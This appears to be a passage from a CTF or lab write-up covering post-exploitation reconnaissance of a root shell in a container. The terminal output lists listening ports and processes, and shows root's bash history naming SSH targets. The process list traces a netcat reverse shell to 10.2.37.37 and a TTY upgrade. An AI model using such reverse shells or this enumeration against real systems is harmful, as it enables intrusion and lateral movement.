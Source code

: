 > **Internal System Investigation Phase**
> 

```powershell
root@8b39a559b296:~# ss -tulwn
Netid   State    Recv-Q   Send-Q     Local Address:Port     Peer Address:Port   
tcp     LISTEN   0        10               0.0.0.0:5003          0.0.0.0:*   
   
root@8b39a559b296:~# ps -aux
USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root         1  0.0  0.0   2384   696 ?        Ss   07:22   0:00 sh ./run.sh
root         6  0.0  3.4  42872 34884 ?        S    07:23   0:01 python3 site/ma
root         8  0.8  4.3 633968 44596 ?        Sl   07:23   0:32 /usr/local/bin/
root        78  0.0  0.0   2384   692 ?        S    08:24   0:00 sh -c rm /tmp/f
root        81  0.0  0.0   4184   680 ?        S    08:24   0:00 cat /tmp/f
root        82  0.0  0.0   2384   752 ?        S    08:24   0:00 /bin/sh -i
root        83  0.0  0.1   2368  1824 ?        S    08:24   0:00 nc 10.2.37.37 1
root        86  0.0  0.2   4340  2120 ?        S    08:24   0:00 script -q /dev/
root        87  0.0  0.3   5748  3600 pts/0    Ss   08:24   0:00 bash -i
root        99  0.0  0.2   9388  3024 pts/0    R+   08:27   0:00 ps -aux

root@8b39a559b296:~# cat .bash_history
nc
exit
ifconfig
ip addr
ssh 172.17.0.1
ssh 172.17.0.2
exit
ssh ramsey@172.17.0.1
exit
cd /tmp
wget https://raw.githubusercontent.com/moby/moby/master/contrib/check-config.sh
chmod +x check-config.sh
./check-config.sh 
nano /etc/default/grub
vi /etc/default/grub
apt install vi
apt update
apt install vi
apt install vim
apt install nano
nano /etc/default/grub
grub-update
apt install grub-update
apt-get install --reinstall grub
grub-update
exit
ssh ramsey@172.17.0.1
exit
ssh ramsey@172.17.0.1
exit
ls
cd site/
ls
cd bakery/
ls
nano settings.py 
exit
ls
cd site/
ls
cd bakery/
nano settings.py 
```